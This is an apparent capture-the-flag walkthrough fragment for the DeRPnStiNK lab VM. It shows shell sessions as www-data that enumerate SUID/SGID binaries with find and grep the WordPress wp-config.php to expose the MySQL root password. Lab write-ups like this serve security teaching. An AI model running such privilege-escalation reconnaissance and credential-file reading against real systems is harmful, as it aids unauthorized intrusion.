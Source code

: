 ```shell
www-data@DeRPnStiNK:/home$ find / -type f -perm -4000 -exec ls -la "{}" \; 2>/dev/null
<find / -type f -perm -4000 -exec ls -la "{}" \; 2>/dev/null                 
-rwsr-xr-x 1 root root 88752 Sep  2  2015 /bin/mount
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 35300 Jan 26  2016 /bin/su
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 67704 Sep  2  2015 /bin/umount
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 156708 Aug 27  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 30984 Jan 26  2016 /usr/bin/newgrp
-rwsr-xr-x 1 root root 45420 Jan 26  2016 /usr/bin/passwd
-rwsr-xr-x 1 root lpadmin 13672 Dec 11  2015 /usr/bin/lppasswd
-rwsr-xr-x 1 root root 18136 May  7  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 66284 Jan 26  2016 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 35916 Jan 26  2016 /usr/bin/chsh
-rwsr-xr-x 1 root root 44620 Jan 26  2016 /usr/bin/chfn
-rwsr-sr-x 1 libuuid libuuid 17996 Sep  2  2015 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 13840 Jun 22  2016 /usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
-rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 5480 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 333952 Nov 25  2014 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
www-data@DeRPnStiNK:/home$ 

www-data@DeRPnStiNK:/home$ find / -type f -perm -2000 -exec ls -la "{}" \; 2>/dev/null
<find / -type f -perm -2000 -exec ls -la "{}" \; 2>/dev/null                 
-rwxr-sr-x 1 root shadow 30432 Mar 16  2016 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 18208 Jan 26  2016 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 329144 Aug 11  2016 /usr/bin/ssh-agent
-rwxr-sr-x 1 root shadow 53516 Jan 26  2016 /usr/bin/chage
-rwxr-sr-x 1 root mlocate 34452 Jun 20  2013 /usr/bin/mlocate
-rwxr-sr-x 1 root crontab 34824 Feb  9  2013 /usr/bin/crontab
-rwxr-sr-x 1 root mail 9704 Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 1 root tty 9748 Jun  4  2013 /usr/bin/bsd-write
-rwxr-sr-x 1 root mail 13960 Dec  6  2013 /usr/bin/dotlockfile
-rwxr-sr-x 1 root mail 9704 Dec  3  2012 /usr/bin/mail-lock
-rwxr-sr-x 1 root mail 9704 Dec  3  2012 /usr/bin/mail-touchlock
-rwxr-sr-x 1 root tty 18056 Sep  2  2015 /usr/bin/wall
-rwsr-sr-x 1 libuuid libuuid 17996 Sep  2  2015 /usr/sbin/uuidd
-rwxr-sr-x 1 root mail 13888 Oct 20  2014 /usr/lib/evolution/camel-lock-helper-1.2
-rwxr-sr-x 1 root utmp 9468 Oct  5  2012 /usr/lib/utempter/utempter
-rwxr-sr-x 1 root utmp 14004 Oct 21  2015 /usr/lib/libvte-2.90-9/gnome-pty-helper
```

### mysql password

```shell
www-data@DeRPnStiNK:/var/www/html/weblog$ grep -C5 -i password wp-config.php
grep -C5 -i password wp-config.php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```